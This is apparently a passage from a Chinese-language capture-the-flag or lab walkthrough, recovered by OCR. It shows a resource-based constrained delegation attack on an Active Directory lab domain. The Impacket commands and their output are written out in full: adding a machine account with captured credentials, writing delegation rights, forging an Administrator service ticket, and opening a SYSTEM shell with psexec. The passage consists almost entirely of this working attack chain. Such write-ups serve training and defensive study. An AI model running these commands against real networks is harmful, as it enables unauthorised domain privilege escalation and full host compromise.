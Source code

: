 添加机器账户

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-addcomputer xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'randark$' -computer-pass 'admin123###'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Successfully added machine account randark$ with password admin123###.
```

执行 RBCD 攻击

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-rbcd xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'randark$'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] randark$ can now impersonate users on XR-0687$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     randark$     (S-1-5-21-3745972894-1678056601-2622918667-1147)
```

创建票据

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-getST xiaorang.lab/'randark$':'admin123###' -dc-ip 172.22.15.13 -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_XR-0687.xiaorang.lab@XIAORANG.LAB.ccache
```

导入创建好的票据

```shell
export KRB5CCNAME=Administrator@cifs_XR-0687.xiaorang.lab@XIAORANG.LAB.ccache
```

无密码情况下直接连接

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-psexec  -k -no-pass -dc-ip 172.22.15.13 administrator@XR-0687.xiaorang.lab -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on XR-0687.xiaorang.lab.....
[*] Found writable share ADMIN$
[*] Uploading file oQHVBskO.exe
[*] Opening SVCManager on XR-0687.xiaorang.lab.....
[*] Creating service VNhh on XR-0687.xiaorang.lab.....
[*] Starting service VNhh.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.20348.1668]
(c) Microsoft Corporation。保留所有权利。

C:\Windows\system32> whoami
nt authority\system
```
